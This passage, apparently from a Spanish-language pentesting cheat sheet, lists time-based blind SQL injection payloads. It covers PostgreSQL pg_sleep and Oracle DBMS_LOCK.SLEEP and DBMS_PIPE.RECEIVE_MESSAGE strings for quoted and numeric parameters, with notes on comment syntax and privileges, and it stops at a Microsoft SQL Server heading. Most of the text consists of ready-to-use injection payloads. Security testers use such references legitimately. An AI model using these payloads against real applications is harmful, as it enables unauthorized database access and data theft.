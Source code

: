 ### Contexto: numérico / booleano

```sql
1 OR (SELECT pg_sleep(10))--
```

### Notas

- `pg_sleep` es estándar y no suele requerir privilegios elevados.
    
- Comentar en PostgreSQL se hace con `--` o `/* ... */`.
    
---

## Oracle — ejemplos y variantes

### Formas que solemos ver

- `DBMS_LOCK.SLEEP(10)` — sleep directo, suele necesitar permisos PL/SQL.
    
- `DBMS_PIPE.RECEIVE_MESSAGE('a',10)` — alternativa que bloquea hasta el timeout; frecuentemente útil cuando no podemos ejecutar bloques PL/SQL.
    

### Contexto: parámetro dentro de comillas simples (cadena)

Si la aplicación concatena el parámetro dentro de una cadena `'...<INPUT>...'`, podríamos inyectar cerrando la comilla, añadiendo una expresión y comentando el resto. Ejemplo (plantilla):

```sql
' OR 1=(SELECT CASE WHEN (<condición>) THEN dbms_pipe.receive_message('a',10) ELSE 0 END FROM dual) -- 
```

O, si podemos usar bloques PL/SQL:

```sql
'; BEGIN IF (<condición>) THEN DBMS_LOCK.SLEEP(10); END IF; END; --
```

### Contexto: numérico o dentro de expresión (sin comillas)

```sql
1 OR 1=(SELECT dbms_pipe.receive_message('a',10) FROM dual) --
```

### Notas sobre permisos

- `DBMS_LOCK.SLEEP` puede requerir privilegios especiales.
    
- `DBMS_PIPE.RECEIVE_MESSAGE` suele funcionar en más escenarios y por eso es muy usado en PoC.
    

---

## Microsoft SQL Server (MSSQL) — ejemplos y variantes
